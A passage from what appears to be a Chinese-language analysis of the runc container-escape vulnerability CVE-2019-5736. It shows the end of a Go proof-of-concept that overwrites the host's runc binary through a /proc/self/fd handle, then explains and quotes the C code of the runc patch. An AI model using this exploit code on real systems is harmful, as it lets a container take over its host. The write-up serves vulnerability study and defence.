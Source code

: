```go
            handleFd = int(handle.Fd())
        }
    }
    fmt.Println("[+] Successfully got the file handle")

    // Now that we have the file handle, lets write to the runc binary and overwrite it
    // It will maintain it's executable flag
    for {
        writeHandle, _ := os.OpenFile("/proc/self/fd/"+strconv.Itoa(handleFd), os.O_WRONLY|os.O_TRUNC, 0700)
        if int(writeHandle.Fd()) > 0 {
            fmt.Println("[+] Successfully got write handle", writeHandle)
            writeHandle.Write([]byte(payload))
            return
        }
    }
}
```
## 漏洞修复

runc团队在1.0.0-rc7的版本中增加了该漏洞的[补丁](https://github.com/opencontainers/runc/commit/0a8e4117e7f715d5fbeef398405813ce8e88558b)，修复漏洞的方式是在`runc init`进程进入到容器命名空间之前，先将`/proc/self/exe`（即宿主机上的runc）复制到内存中，然后用复制产生的匿名文件替换当前被执行文件的句柄，这样就能够防止将宿主机的runc文件暴露给容器内部的进程。

```cpp
void nsexec(void)
{
    ...
    /*
     * We need to re-exec if we are not in a cloned binary. This is necessary
     * to ensure that containers won't be able to access the host binary
     * through /proc/self/exe. See CVE-2019-5736.
     */
    if (ensure_cloned_binary() < 0)
        bail("could not ensure we are a cloned binary");
    ...
}
```

```cpp
int ensure_cloned_binary(void)
{
    int execfd;
    char **argv = NULL;

    /* Check that we're not self-cloned, and if we are then bail. */
    int cloned = is_self_cloned();
    if (cloned > 0 || cloned == -ENOTRECOVERABLE)
        return cloned;

    if (fetchve(&argv) < 0)
        return -EINVAL;
    //复制匿名文件
    execfd = clone_binary();
    if (execfd < 0)
        return -EIO;

    if (putenv(CLONED_BINARY_ENV "=1"))
        goto error;
    //执行该复制的匿名文件
    fexecve(execfd, argv, environ);
    error:
    close(execfd);
    return -ENOEXEC;
```
